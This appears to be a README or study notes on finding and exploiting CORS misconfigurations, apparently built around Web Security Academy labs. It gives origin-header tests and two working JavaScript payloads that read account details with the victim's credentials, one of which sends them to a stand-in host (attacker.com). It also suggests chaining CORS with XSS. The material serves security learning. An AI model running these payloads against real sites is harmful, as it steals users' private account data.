 ## **CORS Scenario**

<img width="790" height="638" alt="Screenshot From 2025-07-11 02-53-13" src="https://github.com/user-attachments/assets/20500a8a-3bf1-4a28-a68c-52e8eb761137" />


In this scenario, the attacker tricks users into visiting a malicious site `(evil.com)`. The site then attempts to retrieve sensitive information from the users’ bank accounts `(e.g., from the /account-info endpoint)` by exploiting improperly configured CORS policies.
 
### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
**Demo Payload For Null Case**
```javascript
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://attacker.com/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

---

### Notes

**Cookie Issue**

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; Path=/
```

* `HttpOnly` prevents JavaScript access to cookies.
* `Secure` ensures cookies are sent only over HTTPS.

In this case, we can't fetch the user's session cookie.

<img width="1116" height="348" alt="Screenshot From 2025-07-26 22-36-29" src="https://github.com/user-attachments/assets/39b890d4-b65a-47f4-8a0b-14208a1b5342" />

